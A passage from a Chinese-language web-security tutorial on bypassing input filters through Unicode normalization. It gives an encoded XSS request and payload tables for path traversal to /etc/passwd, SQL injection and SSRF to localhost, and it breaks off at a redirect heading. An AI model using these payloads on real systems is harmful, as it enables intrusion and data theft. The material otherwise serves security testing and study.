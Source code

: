     
    
    GET /?name=%EF%BC%9Cimg%20src%E2%81%BCp%20onerror%E2%81%BC%EF%BC%87prompt%E2%81%BD1%E2%81%BE%EF%BC%87%EF%B9%A5

返回200  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175736.png)

 **如何查找这些字符呢**

我们可以到这个网站  

https://www.compart.com/en/unicode

可以搜索某个字符，并找到兼容后的相同字符。例如，字符 >

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175737.png)

  

显示这三个字符：≮、﹤和＜。单击每个后，我们可以在“分解”部分中看到按以下方式标准化：

  * ≮- <(U+003C) -  ◌̸(U+0338)

  * ﹤- <(U+003C)

  * ＜- <(U+003C)

在这种情况下，该角色≮将无法实现我们想要的功能，因为它会注入角色◌̸（U+0338）并会破坏我们的有效负载。

 **其他思路**  

 **目录遍历**

  

Character| Payload| After Normalization  
---|---|---  
‥ (U+2025)| ‥/‥/‥/etc/passwd| ../../../etc/passwd  
︰(U+FE30)| ︰/︰/︰/etc/passwd| ../../../etc/passwd  
  
 **sql注入  
**

  

Character| Payload| After Normalization  
---|---|---  
＇(U+FF07)| ＇ or ＇1＇=＇1| ’ or ‘1’=’1  
＂(U+FF02)| ＂ or ＂1＂=＂1| ” or “1”=”1  
﹣ (U+FE63)| admin＇﹣﹣| admin’–  
  
 **ssrf**

  

Character| Payload| After Normalization  
---|---|---  
⓪ (U+24EA)| ①②⑦.⓪.⓪.①| 127.0.0.1  
  
 **重定向  
**
